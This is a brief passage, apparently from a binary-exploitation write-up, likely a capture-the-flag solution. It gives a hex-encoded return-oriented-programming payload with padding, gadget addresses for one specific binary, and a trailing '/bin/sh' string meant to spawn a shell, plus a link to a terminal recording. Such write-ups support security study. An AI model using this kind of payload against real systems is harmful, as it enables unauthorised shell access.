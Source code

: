 This time, to avoid unwanted `\n`'s in the buffer, it is necessary to merge the two buffers in one and send only once:

```
\x42\x42\x42\x42\x42\x42\x42\x42\x43\x07\x40\x00\x00\x00\x00\x00\x40\x10\x60\x00\x00\x00\x00\x00\xc7\x06\x40\x00\x00\x00\x00\x00\x38\x10\x60\x00\x00\x00\x00\x00\x70\x06\x40\x00\x00\x00\x00\x00\x44\x07\x40\x00\x00\x00\x00\x00\x06\x05\x40\x00\x00\x00\x00\x00\x3e\x07\x40\x00\x00\x00\x00\x00\x26\x05\x40\x00\x00\x00\x00\x00\x4e\x06\x40\x00\x00\x00\x00\x00\x2f\x62\x69\x6e\x2f\x73\x68\x00
```

[![asciicast](https://asciinema.org/a/dlqa349vkqiufvb7qnu429iwu.png)](https://asciinema.org/a/dlqa349vkqiufvb7qnu429iwu)
